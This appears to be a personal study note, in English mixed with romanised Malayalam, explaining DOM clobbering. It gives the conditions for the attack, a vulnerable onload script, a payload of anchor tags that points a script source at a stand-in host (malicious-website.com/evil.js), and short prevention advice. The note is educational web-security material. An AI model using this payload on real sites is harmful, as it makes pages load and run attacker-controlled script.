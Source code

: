 **CONDITIONS** :
1) insert html with 'id' or 'name' attributes. ie, if you have controll over html and you can inert id or name attribute then dom clobbering is possible
2) there should be a global variable or property of an object (usrally 'window').athayath aa html/script il window. something enn undakanam.eg:namal oru website il javascript code il avatar fetch chyuna code und ath window.defaultavatar enna gloabal variable il ninum fetch chyunu.so ivide global variable use chyunu.athan namuk vendath

**EXAMPLE NOKAM** :
-->window.onload ennal ath oru event hadler aan athaytah window load aakumbol athil enthano ullath ath execute aakum

            <script> 
                       window.onload = function(){
                             let someObject = window.someObject || {};
                              let script = document.createElement('script');
                               script.src = someObject.url;
                                document.body.appendChild(script); 
                        };
                </script>
-->so ivide window load aakumbol ee function execute aakunu.ivide window.someobject ile someobject aan id.
-->rand conditions meet chyan patiyale dom clobbering nadaku enna njan paranju so ivide namuk insert chyan ulla id kity ie,someobject, athupole thane namuk use chyan ulla global variablum kity ie,window.someobject
-->so payload : `<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>` ingane varum.
-->**REFERENCE** : https://research.securitum.com/xss-in-amp4email-dom-clobbering/
-->inspect->console il poi window. ennadichal namuk kanam windows. il enthoke unden.ithil athikavum defualt aaya eventhandlers aayirikum.athonum overwrite chyan patila.like onload , blur , onclick... but ithallathe vere undakum default allathath ath developers idunath.so athan namal overwrite chyth dom clobbering chyunath



### Prevention :
-->the most effective way to avoid DOM-based vulnerabilities is to avoid allowing data from any untrusted source to dynamically alter the value that is transmitted to any sink.
-->If the desired functionality of the application means that this behavior is unavoidable, then defenses must be implemented within the client-side code